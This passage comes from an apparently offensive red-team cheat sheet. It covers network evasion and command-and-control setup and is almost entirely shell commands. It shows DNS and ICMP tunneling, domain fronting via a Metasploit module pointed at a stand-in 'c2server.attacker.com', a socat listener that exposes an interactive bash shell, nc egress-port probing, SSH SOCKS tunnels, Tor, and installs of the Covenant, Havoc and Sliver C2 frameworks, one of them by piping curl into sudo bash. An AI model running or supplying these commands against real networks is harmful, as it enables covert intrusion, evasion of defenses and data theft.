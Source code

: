 ```bash
# DNS tunneling
iodine -P password 192.168.1.100 tunnel.example.com

# ICMP tunneling
ptunnel -p 192.168.1.100 -lp 8000 -da target.com -dp 80
```

### Traffic Obfuscation
```bash
# Set up C2 with domain fronting
use auxiliary/admin/http/apache_mod_rewrite_proxy
set SITE_CONFIG_PATH /etc/apache2/sites-enabled/
set TARGET_HOSTNAME legitimate-domain.com
set TARGET_PATH /
set PROXY_TO https://c2server.attacker.com/
run

# Encapsulate traffic in legitimate protocols
socat TCP-LISTEN:80,fork,reuseaddr EXEC:'bash -li',pty,stderr,setsid,sigint,sane
```

### Egress Filtering Bypass
```bash
# Probe for allowed outbound ports
for port in 21 22 23 25 53 80 443 3306 8080 8443; do
    nc -zv 192.168.1.100 $port 2>&1 | grep succeeded
done

# SSH tunneling
ssh -D 8080 user@192.168.1.100
# Configure proxychains to use SOCKS proxy
# Edit /etc/proxychains.conf
# Add: socks5 127.0.0.1 8080
# Then use: proxychains [command]

# Use Tor for anonymization
apt install tor torsocks
service tor start
torsocks [command]
```

## Advanced C2 Infrastructure

### Setting Up Covert C2
```bash
# Install Covenant C2
git clone https://github.com/cobbr/Covenant
cd Covenant/Covenant
docker build -t covenant .
docker run -it -p 7443:7443 -p 80:80 -p 443:443 covenant

# Install Havoc C2
git clone https://github.com/HavocFramework/Havoc.git
cd Havoc
make

# Install Sliver C2
curl https://sliver.sh/install | sudo bash
sliver
```
